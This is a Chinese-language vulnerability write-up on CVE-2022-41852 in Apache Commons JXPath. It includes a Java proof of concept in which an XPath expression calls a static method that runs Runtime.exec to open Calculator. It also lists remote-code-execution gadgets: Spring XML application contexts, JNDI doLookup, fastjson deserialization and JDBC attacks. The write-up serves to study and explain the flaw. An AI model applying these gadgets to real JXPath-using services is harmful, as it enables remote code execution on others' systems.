



# CVE-2022-41852

看漏洞描述可以看出由于xpath表达式的问题造成的漏洞



这一点其实来源官方的一个feature

https://commons.apache.org/proper/commons-jxpath/users-guide.html



可以看到这里的描述似乎是可以执行一些任意代码具体我们可以跟进看看

简单写个demo


Test.java

```java
import org.apache.commons.jxpath.JXPathContext;

public class Test {
    public static void main(String[] args) {
        JXPathContext context = JXPathContext.newContext(null);
        context.getValue("com.example.springdemo.calc.calc()");
    }
}
```

Calc.java

```java
package com.example.springdemo;

public class calc {
    public static void calc(){
        try {
            Runtime.getRuntime().exec("open -na Calculator");
        }catch (Exception e ){

        }
    }
}
```

可以看到这部分的处理在org.apache.commons.jxpath.ri.compiler.ExtensionFunction当中这里也不浪费太多篇幅，解析表达式的时候会调用到org.apache.commons.jxpath.ri.compiler.ExtensionFunction#computeValue

里面通过Function function = context.getRootContext().getFunction(this.functionName, parameters);去获取一些方法，方法限制有两个，要么有构造函数，要么是一些静态方法

## 对于实例化我们能做什么

spring当中有两个类构造函数就能加载远程配置可以rce，

- org.springframework.context.support.ClassPathXmlApplicationContext
- org.springframework.context.support.FileSystemXmlApplicationContext

## 对于静态方法我们能做什么

jndi当中有静态方法，javax.naming.InitialContext.doLookup

一些常见库比如fastjson出发json反序列化

当然还有jdbc攻击也可以帮助我们撕开一条漏洞的口子

当然肯定还有其他的攻击手法毕竟jre当中有很多类这里只是举一些例子而已，对于学习足够了
